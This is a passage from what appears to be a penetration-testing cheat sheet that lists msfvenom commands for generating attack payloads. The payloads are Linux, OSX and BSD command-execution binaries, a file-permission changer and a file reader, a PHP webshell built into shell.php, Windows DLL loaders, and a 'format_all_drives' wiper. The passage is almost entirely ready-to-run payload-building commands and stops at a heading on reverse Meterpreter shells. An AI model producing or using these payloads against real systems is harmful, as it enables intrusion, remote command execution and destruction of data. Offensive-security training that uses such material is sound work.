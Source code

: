 ##### 2.5.3.5 - Execute Linux Exec Payload

`$ msfvenom -p linux/x86/chmod file=/path/to/file mode=0777 -f elf -o exec-chmod-file-x86`

`$ msfvenom -p linux/x86/exec cmd=<command> -f elf -o exec-cmd-x86`

`$ msfvenom -p linux/x86/read_file fd=1 path=/path/to/file -f elf -o read-file-x86`

##### 2.5.3.6 - Execute OSX Exec Payload

`$ msfvenom -p osx/x86/exec cmd=<command> -f macho -o exec-cmd-x86`

`$ msfvenom -p osx/x64/exec cmd=<command> -f macho -o exec-cmd-x64`

##### 2.5.3.7 - Execute BSD Exec Payload

`$ msfvenom -p bsd/x86/exec cmd=<commands> -f elf -o exec-cmd-x86`

`$ msfvenom -p bsd/x64/exec cmd=<commands> -f elf -o exec-cmd-x64`

##### 2.5.3.8 - Execute Webshells Exec Payload

`$ msfvenom -p php/exec cmd=<commands> -f raw -o exec.php`

`$ cat exec.php | xclip -selection clipboard && echo '<?php ' | tr -d '\n'> shell.php && xclip -selection clipboard -o >> exec.php`

##### 2.5.3.9 - Text-To-Speech Windows Exec Payload

`$ msfvenom -p windows/speak_pwned -f exe -o speak-x86.exe`

##### 2.5.3.10 - Text-To-Speech OSX Exec Payload

`$ msfvenom -p osx/x64/say text=<message> -f macho -o speak-x64`

##### 2.5.3.11 - Format All Drives Windows Exec Payload

`$ msfvenom -p windows/format_all_drives volumelabel=<label> -f exe -o wiper-x86.exe`

##### 2.5.3.12 - Messagebox Windows Exec Payload

`$ msfvenom -p windows/messagebox exitfunc=<seh | thread | process | none> icon=<NO | ERROR | INFORMATION | WARNING | QUESTION> title=<title> text=<text> -f exe -o msgbox-x86.exe`

`$ msfvenom -p windows/x64/messagebox exitfunc=<seh | thread | process | none> icon=<NO | ERROR | INFORMATION | WARNING | QUESTION> title=<title> text=<text> -f exe -o msgbox-x64.exe`

##### 2.5.3.13 - LoadLibrary Windows Exec Payload

`$ msfvenom -p windows/loadlibrary exitfunc=<seh | thread | process | none> dll=C:\\path\\to\\file.dll -f exe -o load-dll-x86.exe`

`$ msfvenom -p windows/x64/loadlibrary exitfunc=<seh | thread | process | none> dll=C:\\path\\to\\file.dll -f exe -o load-dll-x64.exe`

### 2.6 - Meterpreter Payloads

#### 2.6.1 - Reverse Meterpreter Shells

